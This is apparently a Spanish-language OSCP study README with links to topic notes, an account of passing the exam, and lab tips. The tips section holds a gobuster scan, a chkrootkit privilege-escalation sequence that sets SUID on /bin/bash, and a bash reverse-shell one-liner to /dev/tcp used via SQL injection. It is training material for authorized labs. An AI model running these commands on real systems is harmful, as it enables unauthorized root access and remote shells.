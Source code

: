 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)
- [**Pivoting**](./pivoting.md)
- [**Cross-Site Scripting**](./xss.md)
- [**SQL Injection**](./sqli.md)
- [**Local File Inclusion & Path Traversal**](./LFI.md)
- [**Arbitrary File Upload**](./arbitraryFileUpload.md)
- [**Command Injection**](./commandInjection.md)
- [**Other web attacks**](./otherWebAttacks.md)
- [**Privilege Escalation**](./privEsc.md)
- [**Windows Privilege Escalation**](./winPrivEsc.md)
- [**Reporting**](./reporting.md)
- [**Documents, Office, LibreOffice, macros attacks**](./office.md)
- [**Cookie Extraction**](./cookieExtraction.md)
- [**Buffer Overflow**](./bufferOverflow.md)
- [**SMTP/POP/IMAP Mail Server Pentesting**](./smtp.md)
- [**Library-MS WebDav Attack**](./webdav-phishing.md)


## Aprobé el examen
Bueno mis queridos lectores de mi humilde blog, les quería comentar que este Domingo 13 de Julio del 2025 me llegó el mail de Offensive Security que me decía que había aprobado el examen de OSCP.
Mi recorrido por este examen fue bastante arduo y largo pues hice una sobrepreparación porque leí demasiada gente llorando y copeando en [/r/OSCP](https://www.reddit.com/r/oscp/) que me dió un poco de miedo reprobarlo y tener que pagar el recuperatorio que cuesta como 150 dolares.
Lo que hice para prepararme fue:
- Rendir [PNPT](https://certified.tcm-sec.com/76169ba5-9caf-44c0-96b4-6f76b342f0c4#acc.mv0WE3Kr)
- Rendir [CPTS](https://www.credly.com/badges/2a9e3b5b-f684-45d9-ab2d-a74e7cf9714e/public_url)
- Hacer tres prolabs en Hack the Box:
    1. Dante
    2. Zephyr
    3. Rasta
- Hacerme toda la [famosa lista de TJ Null](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) todas las maquinas de Hack The Box y de Proving Grounds practice.
Cabe aclarar que tengo 3 años de experiencia en la industria y que también estoy siguiendo un grado en ciencias de la computación que es durisimo, así que no es que me preparé de la nada, ya tenía una base sólida de conocimientos.
Pero si consideramos desde que empecé a estudiar para PNPT hasta que rendí el examen fueron aproximadamente 6 meses.
Cualquier duda que tengan al respecto no tengo ningún problema en responderla por discord, reddit o el mail que está en mi [página web](https://grunt.ar/) :)


## Extras

### Maquina centOS una privesc rara
- https://seclists.org/fulldisclosure/2019/Apr/24


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI